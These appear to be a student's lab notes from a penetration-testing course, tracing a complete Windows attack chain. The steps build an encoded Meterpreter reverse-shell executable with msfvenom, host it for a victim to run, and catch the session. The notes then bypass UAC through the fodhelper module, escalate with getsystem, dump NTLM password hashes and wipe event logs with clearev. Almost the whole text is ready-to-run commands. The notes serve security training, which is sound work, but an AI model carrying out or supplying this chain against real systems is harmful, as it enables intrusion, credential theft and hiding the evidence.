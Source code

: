 - Privilege escalation tools such as BeRoot and linpostexp allow you to run a configuration assessment on a target system to find information about the underlying vulnerabilities of system resources such as services, file and directory permissions, kernel version, and architecture. Using this information, you can find a way to further exploit and elevate the privileges on the target system.

- Exploiting client-side vulnerabilities allows you to execute a command or binary on a target machine to gain higher privileges or bypass security mechanisms. Using these exploits, you can further gain access to privileged user accounts and credentials.
- Open terminal
	> msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST =10.10.10.13 -f exe > Desktop/Exploit.exe
	
		- The above command will create a malicious Windows executable file named “**Exploit.exe**,” which will be saved on the parrot **Desktop**
	- If you want to create a new directory to share the **Exploit.exe** file with the target machine and provide the permissions, use the below commands:
	- Type **mkdir /var/www/html/share** and press **Enter** to create a shared folder
	- Type **chmod -R 755 /var/www/html/share** and press **Enter**
	- Type **chown -R www-data:www-data /var/www/html/share** and press **Enter**
		- Here, we are sending the malicious payload through a shared directory; but in real-time, you can send it as an email attachment or through physical means such as a hard drive or pen drive.
	> ls -la /var/www/html/ | grep share
	> cp /root/Desktop/Exploit.exe /var/www/html/share/ (to copy into shared folder)
	> service apache2 start (to start apache service)
	> msfconsole (to launch metasploit framework)
	> use exploit /multi/handler (to handle exploits launched outside the framework)
	> set payload windows/meterpreter/reverse_tcp
	> set LHOST #hostip 
	> exploit -j -z
	
	- now go to windows or target machine and open http://#hostip/share in a browser
	- run Exploit.exe
	- now go back to linux machine
	- In the **Terminal** window, you can see that the **Meterpreter** session has successfully been opened.
		> session -i 1(here 1 is the id of the session)
		> getuid (displays current user ID)
		
			- Observe that the Meterpreter session is running with normal user privileges (**WINDOWS10\Admin**).

- Now that you have gained access to the target system with normal user privileges, your next task is to perform privilege escalation to attain higher-level privileges in the target system.
- First, we will use privilege escalation tools (BeRoot), which allow you to run a configuration assessment on a target system to find out information about its underlying vulnerabilities, services, file and directory permissions, kernel version, architecture, as well as other data. Using this information, you can find a way to further exploit and elevate the privileges on the target system.
- switch to terminal with active meterpreter session
	> upload /home/atttacker/Desktop/BeRoot/beRoot.exe (make sure this is present in said directory)
	
	- This command uploads the **beRoot.exe** file to the target system’s present working directory (here, **Downloads**).
	> shell (to open a shell)
	> beRoot.exe (to run beRoot tool)
	
	- A result appears, displaying information about service names along with their permissions, keys, writable directories, locations, and other vital data.
	- You can further scroll down to view the information related to startup keys, task schedulers, WebClient vulnerabilities, and other items.
	- **Windows privileges can be used to escalated privileges. These privileges include SeDebug, SeRestore & SeBackup & SeTakeOwnership, SeTcb & SeCreateToken, SeLoadDriver, and SeImpersonate & SeAssignPrimaryToken. BeRoot lists all available privileges and highlights if you have one of these tokens.**



- Another method for performing privilege escalation is to bypass the user account control setting (security configuration) using an exploit, and then to escalate the privileges using the Named Pipe Impersonation technique.
- The command fails to dump the hashes from the SAM file located on the **Windows 10** machine and returns an error stating **Insufficient privileges to dump hashes!**.
- Now, we shall try to escalate the privileges by issuing a **getsystem** command that attempts to elevate the user privileges.
	> getsystem -t 1
	
	- The command fails to escalate privileges and returns an error stating **Operation failed**.
	- hence it becomes evident that we need admin privileges
- Now, we shall try to bypass the user account control setting that is blocking you from gaining unrestricted access to the machine.
	- In this task, we will bypass **Windows UAC protection** via the FodHelper Registry Key. It is present in Metasploit as a **bypassuac_fodhelper** exploit.
> background (moves current session to background)
> use exploit/windows/local/bypassuac_fodhelper (to use bypass fodhelper)

	- Here, you need to configure the exploit. To know which options you need to configure in the exploit, type **show options** and press **Enter**. The **Module options** section appears, displaying the requirement for the exploit. Observe that the **SESSION** option is required, but the **Current Setting** is empty.
> show options
> set SESSION 1
- Now that we have configured the exploit, our next step will be to set and configure a payload. To do so, type **set payload windows/meterpreter/reverse_tcp** and press **Enter**. This will set the **meterpreter/reverse_tcp** payload.
	> set payload windows/meterpreter/reverse_tcp
	> show options
	> set LHOST #hostip 
	> set TARGET 0 (here 0 indicates exploit target ID, i.e, windows 10)
	> exploit
	> getuid
	> getsystem (shows got system, which means it is a success)
	
		- In Windows OSes, named pipes provide legitimate communication between running processes. You can exploit this technique to escalate privileges on the victim system to utilize a user account with higher access privileges.
	> getuid (see that it changes)
	
	- Let us check if we have successfully obtained the **SYSTEM/admin** privileges by issuing a Meterpreter command that requires these privileges in order to execute.
	- Now, we shall try to obtain password hashes located in the SAM file of the **Windows 10** machine.
		> run post/windows/gather/smart_hashdump
		- This time, Meterpreter successfully extracts the NTLM hashes and displays them.
			- You can further crack these password hashes to obtain plaintext passwords.
			- You can now remotely execute commands such as **clearev** to clear the event logs that require administrative or root privileges. To do so, type **clearev** and press **Enter**.
				> clearev